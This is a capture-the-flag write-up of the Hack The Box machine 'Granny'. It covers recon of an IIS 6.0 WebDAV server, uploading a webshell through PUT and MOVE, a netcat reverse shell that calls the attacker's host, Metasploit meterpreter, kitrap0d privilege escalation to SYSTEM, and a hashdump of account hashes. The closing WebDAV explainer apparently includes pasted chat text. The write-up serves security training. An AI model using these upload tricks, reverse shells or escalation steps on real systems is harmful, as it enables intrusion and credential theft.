





# Granny

## Machine Info


## Recon

### port && path

**nmap**

- 80 http IIS
- webdav

**path**

- `/_vti_bin`
- `/_vti_log`
- `/images`
- `/_private`

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Sun, 18 Feb 2024 17:36:03 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2000|XP (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1:professional
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 (91%), Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (91%), Microsoft Windows 2003 SP2 (90%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (88%), Microsoft Windows XP SP2 or SP3 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP1 (88%), Microsoft Windows 2000 Server SP4 (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

PORT   STATE SERVICE
80/tcp open  http
| http-frontpage-login:
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|   /_vti_bin/: Frontpage file or folder
|   /_vti_log/: Frontpage file or folder
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|   /_vti_bin/shtml.exe: Frontpage file or folder
|   /images/: Potentially interesting folder
|_  /_private/: Potentially interesting folder
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```

```console
└─╼$ gobuster dir -u http://10.129.227.146/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 128 -x php -b 403,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.227.146/
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 152] [--> http://10.129.227.146/images/]
/Images               (Status: 301) [Size: 152] [--> http://10.129.227.146/Images/]
/IMAGES               (Status: 301) [Size: 152] [--> http://10.129.227.146/IMAGES/]
/_private             (Status: 301) [Size: 156] [--> http://10.129.227.146/%5Fprivate/]
/%5C                  (Status: 200) [Size: 1433]
/aspnet_client        (Status: 301) [Size: 161] [--> http://10.129.227.146/aspnet%5Fclient/]
Progress: 2547666 / 2547668 (100.00%)
===============================================================
Finished
===============================================================
```



### WebDav



```console
└─╼$ curl http://10.129.227.146/postinfo.html

<html>

<head>
<meta http-equiv="Content-Type"
content="text/html; charset=iso-8859-1">
<title> Web Posting Information </title>
</head>

<body>
<!-- postinfo.html version 0.100>
<!--
        This file allows users to post files to their web with the Web Publishing Wizard or FrontPad, using the same username and password they would
        use if they were authoring with the FrontPage Explorer and Editor.

        The values below are automatically set by FrontPage at installation
        time.  Normally, you do not need to modify these values, but in case
        you do, the parameters are as follows:

        'BaseURL' is the URL for your web server.

        'DefaultPage' is the name of the default (home) page name
        for your web.

        'XferType' specifies that the FrontPage server extensions have been
        installed on this web.  This value should not be changed.

        'FPShtmlScriptUrl', 'FPAuthorScriptUrl', and 'FPAdminScriptUrl' specify
        the relative urls for the scripts that FrontPage uses for remote
        authoring.  These values should not be changed.

        'version' identifies the version of the format of this file, and
        should not be changed.
--><!-- WebPost
    version="0.100"
    BaseUrl="http://granpa"
    XferType="FrontPage"
    DefaultPage="Default.htm"
    FPShtmlScriptUrl="_vti_bin/shtml.dll/_vti_rpc"
    FPAuthorScriptUrl="_vti_bin/_vti_aut/author.dll"
    FPAdminScriptUrl="_vti_bin/_vti_adm/admin.dll"
-->
<p><!--webbot bot="PurpleText"
preview="This page is created in the root directory of your FrontPage web when FrontPage is installed.  It contains information that allows users to edit pages in your web using the Microsoft Web Publishing Wizard or programs which use the Microsoft Web Publishing Wizard such as FrontPad using the same username and password they would use if they were authoring with Microsoft FrontPage. If you do not want to allow users to edit files on this web using tools other than Microsoft FrontPage, you can delete this file."
--></p>

<h1>Web Publishing Information </h1>

<p>The HTML comments in this page contain the configurationinformation
that allows users to edit pages in your web using the Microsoft
Web Publishing Wizard or programs which use the Microsoft Web
Publishing Wizard such as FrontPad using the same username and
password they would use if they were authoring with Microsoft
FrontPage. Please refer to the Microsoft's Internet SDK for more
information on the Web Publishing Wizard APIs. </p>
</body>
</html>
```

WebDav Enumeration:

- nmap result: operations (PUT & MOVE)

```console
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Sun, 18 Feb 2024 17:36:03 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH

80/tcp open  http
| http-frontpage-login:
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
```

- [davtest](https://www.kali.org/tools/davtest/)

```console
└─╼$ davtest -url http://10.129.227.146
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.129.227.146
********************************************************
NOTE    Random string for this session: 50WgN1x19OPH
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.129.227.146/DavTestDir_50WgN1x19OPH
********************************************************
 Sending test files
PUT     jhtml   SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.jhtml
PUT     jsp     SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.jsp
PUT     php     SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.php
PUT     shtml   FAIL
PUT     cfm     SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.cfm
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.pl
PUT     cgi     FAIL
PUT     asp     FAIL
PUT     html    SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.html
PUT     txt     SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.txt
********************************************************
 Checking for test file execution
EXEC    jhtml   FAIL
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    cfm     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.html
EXEC    html    FAIL
EXEC    txt     SUCCEED:        http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.txt
EXEC    txt     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.227.146/DavTestDir_50WgN1x19OPH
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.jhtml
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.jsp
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.php
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.cfm
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.pl
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.html
PUT File: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.txt
Executes: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.html
Executes: http://10.129.227.146/DavTestDir_50WgN1x19OPH/davtest_50WgN1x19OPH.txt
```

## Foothold

### WebDav Upload

**POC**:

```console
└─╼$ echo imwqe > qwe.txt

└─╼$ curl -X PUT http://10.129.227.146/qwe.txt -d @qwe.txt

└─╼$ curl http://10.129.227.146/qwe.txt
imwqe

└─╼$ curl -X PUT http://10.129.227.146/qwe.aspx -d @qwe.txt
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>
```

**EXP**: upload command aspx and change filename into aspx => trigger aspx reverse shell

```console
└─╼$ locate cmdasp
/usr/share/webshells/asp/cmdasp.asp
/usr/share/webshells/aspx/cmdasp.aspx

└─╼$ cp /usr/share/webshells/aspx/cmdasp.aspx .

└─╼$ curl -X PUT http://10.129.227.146/cmd.txt -d @cmdasp.aspx

└─╼$ curl -X MOVE http://10.129.227.146/cmd.txt -H 'Destination:http://10.129.227.146/cmd.aspx'
```



```console
Command Payload:
\\10.10.16.18\qwe\nc32.exe -e cmd.exe 10.10.16.18 1234

-----------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.227.146] 1052
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

## Privilege Escalation

### msf

Use `--data-binary` to preserve endlines and other control characters:

```console
└─╼$ curl -X PUT http://10.129.227.146/reverse.txt -d @reverse.aspx
```



```console
└─╼$ curl -X PUT http://10.129.227.146/reverse.txt --data-binary @reverse.aspx
```



```console
curl -X MOVE http://10.129.227.146/reverse.txt -H 'Destination:http://10.129.227.146/reverse.aspx'

└─╼$ curl -X MOVE http://10.129.227.146/reverse.txt -H 'Destination:http://10.129.227.146/reverse.aspx'

└─╼$ curl http://10.129.227.146/reverse.aspx # trigger meterpreter

---------------------------------------------------------------------------

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.18:4444
[*] Sending stage (175686 bytes) to 10.129.227.146
[*] Meterpreter session 3 opened (10.10.16.18:4444 -> 10.129.227.146:1080) at 2024-02-19 10:47:45 +0800

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
```

### SeImpersonatePrivilege

**Execute** `multi/recon/local_exploit_suggester`:

```console
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.227.146 - Collecting local exploits for x86/windows...
[*] 10.129.227.146 - 190 exploit checks are being tried...
[+] 10.129.227.146 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.227.146 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.227.146 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.129.227.146 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.227.146 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.227.146 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.227.146 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.129.227.146 - Valid modules for session 3:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

**Exploit**: `windows/local/ms10_015_kitrap0d`

```console
 msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.16.18:6666
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 1760 launched.
[*] Reflectively injecting the DLL into 1760...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.129.227.146
[*] Meterpreter session 4 opened (10.10.16.18:6666 -> 10.129.227.146:1081) at 2024-02-19 10:53:51 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeUndockPrivilege

meterpreter > hashdump
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

```console
c:\>dir /s /b root.txt
dir /s /b root.txt
c:\Documents and Settings\Administrator\Desktop\root.txt

c:\>dir /s /b user.txt
dir /s /b user.txt
c:\Documents and Settings\Lakis\Desktop\user.txt
```

## Exploit Chain

port scan -> IIS webdav -> webdav upload txt file using PUT & change file into aspx extension using MOVE -> NETWORK SERVICE shell -> multi/recon/local_exploit_suggester: exploit with ms10_015_kitrap0d -> system shell

### Beyond Root

**WebDAV** (Web-based Distributed Authoring and Versioning) is an HTTP-based protocol that allows users to remotely edit and manage files on a server as if they were located on their local computer. WebDAV extends the HTTP protocol to support operations such as file upload, download, move, copy, and version control.

WebDAV is related to the content you provide because both are technologies used for web publishing and management. However, the information in your supplied notes is specifically targeted towards Microsoft FrontPage extensions, which is a proprietary, early web site management and editing technology that enabled users to edit websites in a graphical interface through software like FrontPage. FrontPage extensions provided some WebDAV-like functionalities, such as page editing and file management, but it utilized Microsoft's own protocols and APIs.

Although WebDAV and FrontPage extensions offer similar functionalities in some respects, they are distinct technologies utilizing different protocols and methods. **WebDAV** is an open standard and is supported by a variety of server and client software. On the other hand, **FrontPage** extensions are specific to Microsoft and can only be used with servers and client software that support FrontPage extensions.

With the phasing out of FrontPage software and extensions, WebDAV has become a more universal and widely supported method for remote file management and editing over the network. If you wish to manage a modern website, you would likely need to use tools that support WebDAV, rather than relying on the older FrontPage extensions. Many modern content management systems (CMS) and editing software support managing website files via WebDAV.
